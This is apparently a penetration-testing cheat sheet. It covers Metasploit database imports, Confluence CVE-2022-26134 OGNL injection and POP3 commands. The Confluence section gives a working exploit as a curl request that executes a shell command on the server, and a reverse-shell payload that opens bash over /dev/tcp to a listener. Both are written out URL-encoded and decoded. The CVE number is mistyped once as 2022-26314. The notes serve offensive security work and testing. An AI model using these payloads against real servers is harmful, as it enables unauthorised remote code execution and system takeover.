 # Help menu
msf6 > db_import -h

# Import other tool's output
msf6 > db_import ~/nmap_scan.xml

[*] Importing NMAP XML data
[*] Successfully imported  /home/kali/nmap_scan.xml
```

# Confluence CVE-2022-26134:

CVE-2022-26314 is an unauthenticated and remote OGNL injection vulnerability resulting in code execution in the context of the Confluence server (typically the confluence user on Linux installations). Given the nature of the vulnerability, internet-facing Confluence servers are at very high risk.

As stated, the vulnerability is an OGNL injection vulnerability affecting the HTTP server. The OGNL payload is placed in the URI of an HTTP request. Any type of HTTP method appears to work, whether valid (GET, POST, PUT, etc) or invalid (e.g. “BALH”). In its simplest form, an exploit abusing the vulnerability looks like this:

```
curl -v http://10.0.0.28:8090/%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22touch%20/tmp/r7%22%29%7D/
```

Above, the exploit is URL-encoded. The exploit encompasses everything from the start of the content location to the last instance of /. Decoded it looks like this:

```
${@java.lang.Runtime@getRuntime().exec("touch /tmp/r7")}
```

Reverse Shell:

```
curl -v http://10.0.0.28:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/10.0.0.28/1270%200%3E%261%27%29.start%28%29%22%29%7D/
```

Decoded:

```
${new javax.script.ScriptEngineManager().getEngineByName("nashorn").eval("new java.lang.ProcessBuilder().command('bash','-c','bash -i >& /dev/tcp/10.0.0.28/1270 0>&1').start()")}
```

## POP Syntax:

```
POP Commands:
  USER rosesecurity           Log in as "rosesecurity"
  PASS password      Substitue "password" for your actual password
  STAT               List number of messages, total mailbox size
  LIST               List messages and sizes
  RETR n             Show message n
  DELE n             Mark message n for deletion
  RSET               Undo any changes
  QUIT               Logout (expunges messages if no RSET)
  TOP msg n          Show first n lines of message number msg
  CAPA               Get capabilities
```
```